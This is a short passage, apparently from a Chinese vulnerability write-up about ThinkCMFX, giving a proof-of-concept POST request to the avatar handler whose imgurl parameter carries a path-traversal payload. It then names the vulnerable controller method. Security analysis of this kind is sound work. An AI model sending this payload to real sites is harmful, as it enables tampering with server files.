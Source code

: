 ```
url：http://thinkcmf.test/index.php?g=User&m=Profile&a=do_avatar
post:
mgurl=..\..\..\..\..\1.txt 
```

![image](img/5592ad97232446f6caba231ac45b9676.png)

#### 0x03.2 漏洞原理

路径：ThinkCMFX\application\User\Controller\ProfileController.class.php 方法：blic function do_avatar(

![image](img/527f59937cfa0710337160eae813f607.png)

